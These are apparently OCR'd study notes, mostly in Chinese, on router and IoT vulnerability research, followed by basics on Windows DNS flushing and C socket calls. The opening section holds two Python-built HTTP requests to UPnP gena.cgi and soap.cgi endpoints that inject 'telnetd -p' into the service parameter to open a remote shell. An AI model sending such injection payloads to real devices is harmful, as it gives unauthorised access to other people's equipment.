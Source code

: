 gena

```
SUBCRIBE

request = b"SUBSCRIBE /gena.cgi?service=" + b"`telnetd -p 7777`" + b" HTTP/1.1\r\n"
request += b"Host: localhost:49152\r\n"
request += b"Callback: http:///\r\n"
request += b"NT: upnp:event\r\n"
request += b"Timeout: Second-2333\r\n\r\n"
service=后面的内容，再先看到SUBCRIBE请求方式对应的sub_41A390函数：
```



soap

```
from socket import *
from os import *
from time import *
 
request = b"POST /soap.cgi?service=&&telnetd -p 8888&& HTTP/1.1\r\n"
request += b"Host: localhost:49152\r\n"
request += b"Content-Type: text/xml\r\n"
request += b"Content-Length: 88\r\n"
request += b"SOAPAction: a#b\r\n\r\n"
```



### 基础知识

windows dns刷新

```shell
ipconfig /flushdns
```





### 网络编程

参考：https://nuoye-blog.github.io/2020/05/20/6e2d1109/

`socket(2, 2, 0)` 
调用创建了一个IPv4(AF_INET，因为第一个参数是2)的流式套接字(SOCK_STREAM，因为第二个参数是2)，第三个参数指定的是使用默认的协议(通常是TCP)。

bind绑定到servaddr，相应的IP端口

```c
bind(socket_fd, (struct sockaddr*)&servaddr, sizeof(servaddr)
```

listen监听端口

```C
listen(socket_fd, 10)
```
